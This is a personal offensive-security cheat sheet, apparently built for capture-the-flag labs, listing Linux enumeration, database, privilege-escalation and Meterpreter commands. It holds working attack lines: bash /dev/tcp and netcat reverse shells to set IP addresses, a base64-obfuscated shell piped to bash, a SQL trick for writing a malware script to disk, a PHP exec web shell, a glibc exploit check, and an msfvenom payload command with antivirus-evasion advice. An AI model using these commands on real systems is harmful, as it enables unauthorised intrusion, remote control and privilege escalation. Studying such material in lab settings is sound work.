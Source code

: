 # Linux CheatSheet
## General

```bash
find . -type f -name "*.db" 2>/dev/null
#find all files with extension in current dir

md5sum <filename> 
#gets md5 hash of file

find / -type d -name '.git'
#finds dirs with name

cd /var/mail && cd /var/spool/mail
#check for mail

true && echo hi
#hi will be echoed

false && echo hi 
#hi will not be echoed

false/true & echo hi | false/true ; echo hi 
#hi will always be echoed

netstat -tulpn
#lists all ports in use

grep -i something
#case insensitive search

```

${IFS} can be used in place of whitespace when no whitespace allowed

jd-gui used to decompile jar files

## Enumeration

```bash
mkdir nmap
nmap -A -T4 -v -oN nmap/initial $IP 
sudo masscan -p1-65535,U:1-65535 $IP --rate=1000 -e tun0 -oL nmap/masscan

hosts
#alias for 'sudo nano /etc/hosts'

dirsearch -u $URL
gobuster dir -u $URL -w /home/kali/directory-list-2.3-medium.txt

ffuf -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://devvortex.htb -H "Host:FUZZ.devvortex.htb" -mc 200,204,301,307,401,403,405,500
#fuzzes subdomains

wpscan --url <url> -v -e 

sudo responder -wA -I tun0 -v 
#Spoofs every server imaginable to get info on connection attempts

dig axfr @<ip> <hostname>
#gets other hostnames from port 53 of server

```
Always google open ports, not just services shown/guessed by nmap

.dockerenv in / means you're in a docker container

gitdump used to dump .git directories 

if nmap only shows scanning 2 ports with -p- use -Pn


## MySQL

```bash
mysql -u <username> -p <database>
#connect to mysql database on machine
show databases;
use <databasename>;
show tables;

```

mysql can usually write into /var/lib/mysql/

SELECT "bashscript" into outfile '/dev/shm/malware.sh';

SELECT from_base64("base64encoded") into outfile '/dev/shm/nothing.txt';

## Postgres
```bash
psql -h <localhost> -U <username> 
```


## RevShells

```bash
bash -i >& /dev/tcp/10.10.15.59/9002 0>&1
nc 10.10.14.54 8888 -e bash

echo "bash -i >& /dev/tcp/10.10.15.59/8000 0>&1" | base64
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41NC84ODg4IDA+JjE= | base64 -d | bash

which python
which python3

python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

stty raw -echo #with ctrl-z/backgrounded
fg
export TERM=xterm
reset
```

/home/kali/php-reverse-shell.php is php reverse shell that can be uploaded to php server

For things running on localhost, if you have ssh session then you can forward it to yourself using ~C , then -L 8080:localhost:8080

## PHP

With PHP, can put <?php exec("command"); ?> in a .php file then call it

Or exec("command"); in interactive php

Remember to base encode, and not have + in them as will fuck with url encoding. double base encoding usually works well

Also, when calling .php files try both with and without the extension in web browser...

## PrivEsc

```bash
sudo -l 
#shows any commands to be run as sudo by user

chmod +x pspy && ./pspy 
#sees all commands run, can find cron run as sudo etc

/home/kali/linpeas.sh 
#good tool for PE enum

env 
#shows env variables, could have creds

uname -a 
#shows linux build, could be vuln

ldd --version
#shows GLIBC version, could be vuln (loonytoonables)

env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
#loonytoonables vuln if returns Segmentation fault (core dumped)

ps aux ww

find / -perm -u=s -type f 2>/dev/null 
#finds suid bit

python2 fallofsudo.py

```

look in all interesting folders, .git, .config, /var/www, /, .local

check /var/www, use ls -la. .env is common php password storage thingie

## Web

https://beautifier.io/ - Use detect packers & obfuscators

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

with basic http auth (website shows popup asking for creds) you can clear prefixing url. ie http://username:password@url.com


## Meterpreter

Staged means normal rev shell. OS/meterpreter/reverse_tcp is staged. It's much smaller, but much more fingerprinted and hard to bypass AV

Unstaged means special meterpreter shell. OS/meterpreter_reverse_tcp is unstaged. Pretty big (150+ KB) but can be obviscated much better

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ip LPORT=port -f <format> -o outfile.exe
#payload creation made easy :)

```
